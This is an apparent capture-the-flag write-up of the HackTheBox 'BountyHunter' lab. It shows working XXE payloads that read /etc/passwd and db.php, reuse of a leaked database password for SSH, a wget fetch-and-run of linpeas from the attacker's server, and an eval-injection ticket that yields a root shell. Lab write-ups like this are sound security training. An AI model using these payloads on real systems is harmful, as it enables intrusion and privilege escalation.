


---
search:
  exclude: true
---
# BountyHunter Writeup

## Introduction :

BountyHunter is an easy Linux box released back in July 2021

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.0.0.10/16 ] [ nowhere ] [~/HTB/BountyHunter]
    → vim /etc/hosts
    
    [ 10.0.0.10/16 ] [ nowhere ] [~/HTB/BountyHunter]
    → sudo vim /etc/hosts
    [sudo] password for nothing:
    
    [ 10.0.0.10/16 ] [ nowhere ] [~/HTB/BountyHunter]
    → cat /etc/hosts | grep bounty
     10.129.95.166 bountyhunter.htb
    
    [ 10.0.0.10/16 ] [ nowhere ] [~/HTB/BountyHunter]
    → nmap -sCV bountyhunter.htb
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-29 16:10 UTC
    Nmap scan report for bountyhunter.htb (10.129.95.166)
    Host is up (0.027s latency).
    Not shown: 998 closed tcp ports (conn-refused)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
    |   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
    |_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-title: Bounty Hunters
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 9.12 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so let's investigate it: 

We click "Portal" and it shows us the following:

So here we see that we can input some text in the fields, so let's intercept it with burpsuite:

 

So here we see that forwarding the request, once sent adds data to a DB. However let's take a closer look at the data which seems to be a base64 string once b64 decoded: 

    
    
    [ 10.8.0.3/24 ] [ nowhere ] [~/HTB/BountyHunter]
    → vim data
    
    [ 10.8.0.3/24 ] [ nowhere ] [~/HTB/BountyHunter]
    → cat data
    <****?xml  version="1.0" encoding="ISO-8859-1"?> <****bugreport> <****title>niihlism
                    <****cwe>cwe
                    <****cvss>10.0
                    <****reward>999999
                    <****/bugreport>

So from here, we can modify the xml data with a payload to print out /etc/passwd:
    
    
    [ 10.8.0.3/24 ] [ nowhere ] [~/HTB/BountyHunter]
    → vim data
    
    [ 10.8.0.3/24 ] [ nowhere ] [~/HTB/BountyHunter]
    → cat data
    <****?xml  version="1.0" encoding="ISO-8859-1"?> <****!DOCTYPE nothing [ <****!ELEMENT nothing ANY > <****!ENTITY nihilism SYSTEM "file:///etc/passwd" >]> <****bugreport> <****title> &nihilism;<****/title> <****cwe>cwe <****/cwe> <****cvss>10.0 <**/cvss>
                    <****reward>999999 <****/reward> <****/bugreport>
    
    [ 10.8.0.3/24 ] [ nowhere ] [~/HTB/BountyHunter]
    → base64 -w0 data
    PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KICA8IURPQ1RZUEUgbmloaWxpc3QgWyAgCiAgPCFFTEVNRU5UIG5paGlsaXNtIEFOWSA+CiAgPCFFTlRJVFkgeHhlIFNZU1RFTSAiZmlsZTovLy9ldGMvcGFzc3dkIiA+XT4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT5uaWhpbGlzbTwvdGl0bGU+CgkJPGN3ZT5jd2U8L2N3ZT4KCQk8Y3Zzcz4xMC4wPC9jdnNzPgoJCTxyZXdhcmQ+OTk5OTk5PC9yZXdhcmQ+CgkJPC9idWdyZXBvcnQ+Cg==%

Then use the b64 string in the burp repeater, and don't forget to URL encode it by selecting it and pressing CTRL+U, then click send:

So now we know the users on the system, so let's continue by looking for other files:
    
    
    [ 10.10.16.14/23 ] [ nowhere ] [~]
    → gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -u http://bountyhunter.htb/  -x php
    ===============================================================
    Gobuster v3.3
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://bountyhunter.htb/
    [+] Method:                  GET
    [+] Threads:                 50
    [+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.3
    [+] Extensions:              php
    [+] Timeout:                 10s
    ===============================================================
    2022/11/20 11:10:47 Starting gobuster in directory enumeration mode
    ===============================================================
    /.php                 (Status: 403) [Size: 281]
    /index.php            (Status: 200) [Size: 25169]
    /resources            (Status: 301) [Size: 324] [--> http://bountyhunter.htb/resources/]
    /assets               (Status: 301) [Size: 321] [--> http://bountyhunter.htb/assets/]
    /portal.php           (Status: 200) [Size: 125]
    /css                  (Status: 301) [Size: 318] [--> http://bountyhunter.htb/css/]
    /db.php               (Status: 200) [Size: 0]
    /js                   (Status: 301) [Size: 317] [--> http://bountyhunter.htb/js/]
    
    

So let's try to print out the db.php file using the php filter base64-encode method to avoid having the php code being executed when we try to read it:
    
    
    <****?xml version="1.0" encoding="ISO-8859-1"?> <****!DOCTYPE nothing [ <****!ELEMENT nothing ANY > <****!ENTITY nihilism SYSTEM "php://filter/convert.base64-encode/resource=db.php" >]> <****bugreport> <****title> &nihilism;<****/title> <****cwe>cwe <****/cwe> <****cvss>10.0 <****/cvss> <****reward>999999 <****/reward> <****/bugreport>
    
    [ 10.8.0.3/24 ] [ nowhere ] [~/HTB/BountyHunter]
    → base64 -w0 dataphp
    PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iSVNPLTg4NTktMSI/PgogIDwhRE9DVFlQRSBub3RoaW5nIFsgIAogIDwhRUxFTUVOVCBub3RoaW5nIEFOWSA+CiAgPCFFTlRJVFkgbmloaWxpc20gU1lTVEVNICJwaHA6Ly9maWx0ZXIvY29udmVydC5iYXNlNjQtZW5jb2RlL3Jlc291cmNlPWRiLnBocCIgPl0+CgkJPGJ1Z3JlcG9ydD4KCQk8dGl0bGU+Jm5paGlsaXNtOzwvdGl0bGU+CgkJPGN3ZT5jd2U8L2N3ZT4KCQk8Y3Zzcz4xMC4wPC9jdnNzPgoJCTxyZXdhcmQ+OTk5OTk5PC9yZXdhcmQ+CgkJPC9idWdyZXBvcnQ+Cg==%

` 

So it managed to read the db.php file and gave out it's contents in b64 format, so let's decode it:
    
    
    [ 10.8.0.3/24 ] [ nowhere ] [~/HTB/BountyHunter]
    → echo 'PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo='
    | base64 -d
    <****?php
    // TODO -> Implement login system with the database.
    $dbserver = "localhost";
    $dbname = "bounty";
    $dbusername = "admin";
    $dbpassword = "**m19RoAU0hP41A1sTsq6K** ";
    $testuser = "test";
    ?>
    
    

And now we have credentials ! Coupled with the development username we found earlier, we login:
    
    
    [ 10.8.0.3/24 ] [ nowhere ] [~/HTB/BountyHunter]
    → sshpub development@bountyhunter.htb
    The authenticity of host 'bountyhunter.htb (10.129.95.166)' can't be established.
    ED25519 key fingerprint is SHA256:p7RCN4B2AtB69d0vE1LTmg0lRRlnsR1fxArJ+KNoNFQ.
    This key is not known by any other names.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added 'bountyhunter.htb' (ED25519) to the list of known hosts.
    development@bountyhunter.htb's password:
    Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
      System information as of Sun 20 Nov 2022 11:16:54 AM UTC
    
      System load:           0.01
      Usage of /:            23.7% of 6.83GB
      Memory usage:          13%
      Swap usage:            0%
      Processes:             217
      Users logged in:       0
      IPv4 address for eth0: 10.129.95.166
      IPv6 address for eth0: dead:beef::250:56ff:fe96:475
    
    
    0 updates can be applied immediately.
    
    
    The list of available updates is more than a week old.
    To check for new updates run: sudo apt update
    
    Last login: Wed Jul 21 12:04:13 2021 from 10.10.14.8
    development@bountyhunter:~$ id
    uid=1000(development) gid=1000(development) groups=1000(development)
    development@bountyhunter:~$ cat user.txt
    62XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! We managed to login as the development user.

## **Part 3 : Getting Root Access**

Then, in order to privesc, we use linpeas.sh as we did on the Previse box:
    
    
    [term1]
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/BountyHunter]
    → locate linpeas.sh
    /home/nothing/HTB/Cap/linpeas.sh
    /home/nothing/HTB/Knife/linpeas.sh
    /home/nothing/HTB/Paper/linpeas.sh
    /home/nothing/HTB/Previse/linpeas.sh
    
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/BountyHunter]
    → cp /home/nothing/HTB/Previse/linpeas.sh .
    
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/BountyHunter]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    [term2]
    development@bountyhunter:~$ which wget curl
    /usr/bin/wget
    /usr/bin/curl
    development@bountyhunter:~$ wget http://10.10.16.14:9090/linpeas.sh -O /tmp/peas.sh
    --2022-11-20 11:19:30--  http://10.10.16.14:9090/linpeas.sh
    Connecting to 10.10.16.14:9090... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 776167 (758K) [application/x-sh]
    Saving to: ‘/tmp/peas.sh’
    
    /tmp/peas.sh                                                      100%[==========================================================================================================================================================>] 757.98K   123KB/s    in 9.3s
    
    2022-11-20 11:19:41 (81.1 KB/s) - ‘/tmp/peas.sh’ saved [776167/776167]
    
    
    development@bountyhunter:~$ chmod +x /tmp/peas.sh
    development@bountyhunter:~$ /tmp/peas.sh
    

` 

Let it run, then scrolling through the output we see the following:

So apparently the user development can run a python script as the root user, so let's take a look at it:
    
    
    development@bountyhunter:~$ cat /opt/skytrain_inc/ticketValidator.py
    #Skytrain Inc Ticket Validation System 0.1
    #Do not distribute this file.
    
    def load_file(loc):
        if loc.endswith(".md"):
            return open(loc, 'r')
        else:
            print("Wrong file type.")
            exit()
    
    def evaluate(ticketFile):
        #Evaluates a ticket to check for ireggularities.
        code_line = None
        for i,x in enumerate(ticketFile.readlines()):
            if i == 0:
                if not x.startswith("# Skytrain Inc"):
                    return False
                continue
            if i == 1:
                if not x.startswith("## Ticket to "):
                    return False
                print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
                continue
    
            if x.startswith("__Ticket Code:__"):
                code_line = i+1
                continue
    
            if code_line and i == code_line:
                if not x.startswith("**"):
                    return False
                ticketCode = x.replace("**", "").split("+")[0]
                if int(ticketCode) % 7 == 4:
                    validationNumber = eval(x.replace("**", ""))
                    if validationNumber > 100:
                        return True
                    else:
                        return False
        return False
    
    def main():
        fileName = input("Please enter the path to the ticket file.\n")
        ticket = load_file(fileName)
        #DEBUG print(ticket)
        result = evaluate(ticket)
        if (result):
            print("Valid ticket.")
        else:
            print("Invalid ticket.")
        ticket.close
    
    main()
    

This python script validates tickets with the following format:
    
    
    development@bountyhunter:/opt/skytrain_inc$ ls -lash invalid_tickets/
    total 24K
    4.0K drwxr-xr-x 2 root root 4.0K Jul 22  2021 .
    4.0K drwxr-xr-x 3 root root 4.0K Jul 22  2021 ..
    4.0K -r--r--r-- 1 root root  102 Jul 22  2021 390681613.md
    4.0K -r--r--r-- 1 root root   86 Jul 22  2021 529582686.md
    4.0K -r--r--r-- 1 root root   97 Jul 22  2021 600939065.md
    4.0K -r--r--r-- 1 root root  101 Jul 22  2021 734485704.md
    development@bountyhunter:/opt/skytrain_inc$ cat invalid_tickets/734485704.md
    # Skytrain Inc
    ## Ticket to Bridgeport
    __ticket code:__
    **18+71+8**
    ##Issued: 2021/06/21
    #End Ticket
    
    

So the idea is to create a poisoned ticket like so:
    
    
    development@bountyhunter:~$ cat /tmp/nihi.md
    # Skytrain Inc
    ## Ticket to Bridgeport
    __Ticket Code:__
    ****32+110+43+ __import__('os').system('id')****
    ##Issued: 2022/11/22
    #End Ticket
    
    development@bountyhunter:~$ sudo python3.8 /opt/skytrain_inc/ticketValidator.py
    Please enter the path to the ticket file.
    /tmp/nihi.md
    Destination: Bridgeport
    **uid=0(root) gid=0(root) groups=0(root)**
    Valid ticket.
    
    

And as you can see we managed to get code execution as the root user, so let's use it to spawn a root shell:
    
    
    development@bountyhunter:~$ vim /tmp/nihi.md
    development@bountyhunter:~$ cat /tmp/nihi.md
    # Skytrain Inc
    ## Ticket to Bridgeport
    __Ticket Code:__
    **32+110+43+ __import__('os').system('bash')**
    ##Issued: 2022/11/22
    #End Ticket
    development@bountyhunter:~$ sudo python3.8 /opt/skytrain_inc/ticketValidator.py
    Please enter the path to the ticket file.
    /tmp/nihi.md
    Destination: Bridgeport
    root@bountyhunter:/home/development# id
    uid=0(root) gid=0(root) groups=0(root)
    root@bountyhunter:/home/development# cd
    root@bountyhunter:~# cat root.txt
    af1770ee0049711f6b5450004f011db0
    afXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to privesc to the root user and get the root flag.

## **Conclusion**

Here we can see the progress graph :

